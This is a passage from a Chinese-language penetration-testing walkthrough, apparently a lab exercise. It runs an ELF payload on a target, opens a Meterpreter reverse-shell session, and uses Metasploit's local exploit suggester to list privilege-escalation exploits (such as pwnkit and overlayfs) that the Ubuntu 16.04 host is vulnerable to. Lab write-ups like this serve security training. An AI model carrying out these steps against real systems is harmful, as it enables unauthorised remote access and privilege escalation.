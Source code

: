 

在靶机上设置 elf 可执行权限，并执行。

![image-20250304181740428](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250304181740428.png)



msfconsole 成功上线

```
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Sending stage (3045380 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:40612) at 2025-03-04 10:16:55 +0000

meterpreter > sysinfo 
Computer     : 10.10.10.100
OS           : Ubuntu 16.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```



使用 post/multi/recon/local_exploit_suggester 扫描本地提权漏洞

```
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 127.0.0.1 - Collecting local exploits for x64/linux...
[*] 127.0.0.1 - 203 exploit checks are being tried...
[+] 127.0.0.1 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/cve_2021_3493_overlayfs: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[+] 127.0.0.1 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/docker_cgroup_escape: The target is vulnerable. IF host OS is Ubuntu, kernel version 4.4.0-31-generic is vulnerable
[+] 127.0.0.1 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/ntfs3g_priv_esc: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[+] 127.0.0.1 - exploit/linux/local/ptrace_traceme_pkexec_helper: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.8.16.pre.0ubuntu1.1 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[*] Running check method for exploit 73 / 73
[*] 127.0.0.1 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/bpf_sign_extension_priv_esc                     Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 4   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/docker_cgroup_escape                            Yes                      The target is vulnerable. IF host OS is Ubuntu, kernel version 4.4.0-31-generic is vulnerable
```